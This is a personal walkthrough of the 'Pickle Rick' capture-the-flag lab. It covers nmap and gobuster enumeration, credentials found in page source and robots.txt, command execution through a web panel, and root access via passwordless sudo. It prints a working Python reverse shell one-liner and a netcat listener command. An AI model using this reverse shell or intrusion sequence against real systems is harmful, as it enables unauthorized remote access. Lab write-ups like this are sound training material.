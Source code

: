 
--------------------------------------------------------------

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: 10.10.212.184

My first step was to enter the url 10.10.212.184 into my web browser to check on any initial information because there was minimal context given in the prompt.

 [pickle rick ctf homepage](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/5fc63bc0-8f3e-4e65-9299-136c1836c6dc)

Looking into the source of the landing page, we find a username.

insert url inspect png

- Username:R1ckRul3s

After taking a look webpage, I decided to do a portscan using the nmap tool. Utilizing the -sV and -A flags, I will be able to gain information about open ports, operating systems, versions, script scans, and tracerouting. 

insert sudo nmap -sV -A png

Finding that ssh is open is an indicator that we will likely be executing a reverse shell to connect through that open ssh port.

We now need a way to find any valid urls to gain more information about the size of our attack surface. Using the gobuster tool, we can try enough variations to have a good starting point. I decided to use the medium directory list included in Kali Linux and found 8 potential leads.

insert gobuster force directory png

Exploring the listed links in the assets page:

insert assets url png

I suspected based on the amount of images and gifs that I would find stenography in these links, but unfortunately that effort came up short.

The login.php link guides us to a typical login page, and the robots.txt link led us to a strange string of text. 

insert robotstxt png

I decided to attempt using this string from robots.txt as a password and was successful.

From here we were given a command line labeled "command"

After exploring the files and directories a bit, I decided to run a grep -R . command where the . serves as a wildcard matching all characters. This command outputs each character available recursively. It isn't ideal in terms of organizing the data, but it's a great way to get an idea of the amount of information we are looking at. 

insert grep -R .

Toward the bottom of the output, I saw this:

insert mr. meeseek hair first clue

I inserted this into the first clue and we've successfully found our first potion ingredient!

At this point, I tested python3 "print('hello')" to see if we would be able to run python scripts through the command and we were able to print hello succesfully! 

I set up a nc listener on port 9001 in my terminal running:
nc -lvnp 9001 
using revshells.com I generated a python3 reverse shell:
export RHOST="10.10.212.184";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

Once I established a connection, I navigated the files until I checked the home directory. Here I found a directory named "Ricky". Inside that directory, I found a file named "second ingredients", so I knew that we had found our second flag. I read the file using cat *

insert 1 jerry tear second clue png

I spent longer than I should continuing to investigate the machine from this point, and eventually it occurred to me that I hadn't done any privilege escalation up to this point. 

I ran the command sudo -l to get information about the elevated users on the machine and was surprised to see there was no password set for the root user on the machine.

insert priv escalation sudo -l found no password

From here I entered cd /root and then ls to list files that may not have been visible to me before.  As you can see,  I found a file named 3rd.txt 

insert third clue visible as root user png

As you can see, I ran cat 3rd.txt and found our final ingredient which happened to fleeb juice of course!

This concluded the exercise and once we combine the ingredients and bring the potion to Rick, he will no longer be a pickle!

# Takeaways:

- **Initial Exploration:**
    
    - Inspect the web application's source code for clues.
    - Discover the username "R1ckRul3s" in the source.
- **Port Scanning:**
    
    - Use nmap for port scans to identify potential vulnerabilities.
    - Focus on open SSH ports for potential exploitation.
- **Directory Enumeration:**
    
    - Employ gobuster to find valid URLs.
    - Use robots.txt strings as potential passwords.
- **Command Line Exploration:**
    
    - Exploit login success to access a labeled command line.
    - Utilize commands like grep for recursive file searches.
- **Reverse Shell:**
    
    - Confirm the ability to run scripts through the command line.
    - Establish a reverse shell for remote access.
- **Privilege Escalation:**
    
    - Check for elevated users with `sudo -l`.
    - Discover no password requirement for root user.
- **Root Access:**
    
    - Navigate to root directories, find "3rd.txt" for the final ingredient.



